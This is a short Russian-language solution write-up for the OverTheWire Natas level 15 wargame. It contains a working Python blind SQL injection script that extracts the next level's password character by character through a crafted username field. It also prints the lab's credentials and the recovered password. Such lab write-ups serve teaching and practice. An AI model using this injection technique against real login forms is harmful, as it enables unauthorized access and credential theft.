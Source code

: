  это был сложный таск...
все свелось к следующему скрипту
```python
from requests import get
from requests.auth import HTTPBasicAuth

from string import ascii_lowercase,ascii_uppercase,digits

auth = HTTPBasicAuth('natas15', 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx')
url = 'http://natas15.natas.labs.overthewire.org/'
params_basic = {
    #'username':'" or username="natas16" and password like "{password}%" or username="',
    'username':'" or (username="natas16" and  password collate utf8mb4_bin like "{password}%") or username="',
    'debug':'true'
}
params = dict()
global_passwords = list()

def lol(current_password):
    global global_passwords
    srabotki = False
    for symbol in ascii_uppercase + ascii_lowercase + digits:
        params['username'] = params_basic['username'].format(password=current_password + symbol)
        response = get(url, params, auth=auth).text
        if 'This user exists' in response:
            srabotki = True
            print(symbol)
            lol(current_password+symbol)
            continue

    if not srabotki:
        print(current_password)
        global_passwords.append(current_password)

lol('')

print(global_passwords)

print(len('HPKJKYVILQCTEW33QMUXL6EDVFMW4SGO'))
```
в данном случае используется sql иньекция которая подбирает по 1 символу пароль, в {password} подставляется текущий пароль с добавлением 1 символа
если символ подходит сервер вернет "This user exists"
так делаем итеративно докидывая символов в пароль

collate utf8mb4_bin нужен для сохранения регистра при поиске

hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
